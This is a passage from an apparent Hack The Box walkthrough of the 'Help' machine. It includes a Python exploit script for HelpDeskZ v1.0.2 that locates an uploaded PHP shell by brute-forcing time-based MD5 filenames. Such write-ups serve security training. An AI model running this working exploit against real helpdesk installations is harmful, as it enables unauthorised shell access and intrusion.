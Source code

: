 <div class="filename"><span>exploit.py</span></div>

```python
'''
Usage: python exploit.py http://10.10.10.121/support/uploads/tickets/ test.php
'''

import hashlib
import time
import sys
import requests

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]
extension = fileName.split(".")[-1]

currentTime = int(time.time())

for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl + md5hash + '.' + extension
    response = requests.head(url)
    if response.status_code == 200:
        print "found!"
        print url
        sys.exit(0)

print "Sorry, I did not find anything"
```

Armed with the insight gleaned from the source code, let's upload again and find out where it's uploaded to.

<a class="image-popup">
![b88c841c.png](/assets/images/posts/help-htb-walkthrough/b88c841c.png)
</a>

<a class="image-popup">
![772cc8ce.png](/assets/images/posts/help-htb-walkthrough/772cc8ce.png)
</a>


[1]: https://www.hackthebox.eu/home/machines/profile/170
[2]: https://www.hackthebox.eu/home/users/profile/3079
[3]: https://www.hackthebox.eu/